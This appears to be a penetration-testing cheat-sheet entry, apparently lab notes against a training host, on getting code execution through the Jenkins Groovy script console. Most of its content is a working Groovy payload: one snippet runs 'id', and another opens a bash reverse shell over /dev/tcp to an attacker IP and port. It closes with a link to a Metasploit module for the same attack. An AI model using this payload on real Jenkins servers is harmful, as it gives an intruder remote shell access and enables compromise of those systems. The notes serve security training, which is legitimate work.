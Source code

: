 ## Jenkins

- Check for CVEs

With admin access, we can use script console get a reverse shell :
http://jenkins.inlanefreight.local:8000/script

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout

// OR

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

Using metasploit : 
https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/